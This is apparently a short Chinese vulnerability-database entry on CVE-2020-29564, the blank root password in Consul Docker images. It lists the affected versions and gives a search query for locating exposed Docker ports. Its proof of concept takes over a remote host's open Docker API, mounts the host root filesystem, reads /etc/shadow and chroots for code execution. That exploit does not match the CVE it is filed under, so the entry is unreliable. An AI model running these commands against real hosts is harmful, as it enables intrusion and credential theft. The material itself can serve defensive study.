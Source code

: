 Consul Docker images 空密码登录漏洞 CVE-2020-29564

## 漏洞描述

Hashicorp Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

参考链接：

- https://github.com/koharin/CVE/blob/main/CVE-2020-29564

## 漏洞影响

```
Consul Docker images 0.7.1-1.4.2
```

## 网络测绘

```
port="2375" && protocol=="docker"
```

## 漏洞复现

poc：

```
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```

